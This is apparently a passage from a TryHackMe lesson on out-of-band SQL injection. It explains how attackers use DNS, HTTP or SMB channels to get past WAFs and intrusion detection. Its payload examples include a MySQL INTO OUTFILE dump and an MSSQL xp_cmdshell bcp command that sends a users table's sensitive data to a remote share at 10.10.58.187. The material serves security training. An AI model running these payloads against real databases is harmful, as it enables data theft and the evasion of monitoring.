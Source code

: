 ![process flow of OOB injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1717060822273)  

One of the key advantages of Out-of-band SQL injection is its stealth and reliability. By using **different communication channels**, attackers can minimise the risk of detection and maintain a persistent connection with the compromised system. For instance, an attacker might inject a **SQL payload that triggers the database server to make a DNS request** to a malicious domain controlled by the attacker. The response can then be used to extract sensitive data without alerting security mechanisms that monitor direct database interactions. This method allows attackers to exploit vulnerabilities even in complex network environments where direct connectivity between the attacker and the target is limited or scrutinised. 

Why Use OOB

In scenarios where direct responses are sanitised or limited by security measures, OOB channels enable attackers to exfiltrate data without immediate feedback from the server. For instance, security mechanisms like **stored procedures**, **output encoding**, and a**pplication-level constraints** can **prevent direct responses**, making traditional SQL injection attacks ineffective. Out-of-band techniques, such as using DNS or HTTP requests, allow data to be sent to an external server controlled by the attacker, circumventing these restrictions.

Additionally, **Intrusion Detection Systems (IDS)** and **Web Application Firewalls (WAFs)** often **monitor and log SQL query responses for suspicious activity**, blocking direct responses from potentially malicious queries. By leveraging OOB channels, attackers can avoid detection by using less scrutinized network protocols like DNS or SMB to transfer data. This is particularly useful in network environments with limited direct connectivity between the attacker and the database server, such as when the server is behind a firewall or in a different network segment.

Techniques in Different Databases

Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

**MySQL and MariaDB**

In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

```php
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

**Microsoft SQL Server (MSSQL)**

In MSSQL, Out-of-band SQL injection can be performed using features like [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

```php
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```
